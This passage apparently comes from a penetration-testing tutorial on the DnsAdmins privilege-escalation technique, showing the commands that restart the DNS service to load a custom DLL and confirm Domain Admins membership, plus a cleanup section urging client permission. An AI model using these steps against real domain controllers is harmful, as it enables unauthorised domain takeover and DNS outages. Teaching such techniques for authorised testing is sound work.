 The DNS service will attempt to start and run our custom DLL, but if we check the status, it will show that it failed to start correctly (more on this later).

#### Starting the DNS Service

DnsAdmins

```cmd-session
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

#### Confirming Group Membership

If all goes to plan, our account will be added to the Domain Admins group or receive a reverse shell if our custom DLL was made to give us a connection back.

```cmd-session
C:\htb> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

---

## Cleaning Up

Making configuration changes and stopping/restarting the DNS service on a Domain Controller are very destructive actions and must be exercised with great care. As a penetration tester, we need to run this type of action by our client before proceeding with it since it could potentially take down DNS for an entire Active Directory environment and cause many issues. If our client gives their permission to go ahead with this attack, we need to be able to either cover our tracks and clean up after ourselves or offer our client steps on how to revert the changes.

These steps must be taken from an elevated console with a local or domain admin account.

#### Confirming Registry Key Added
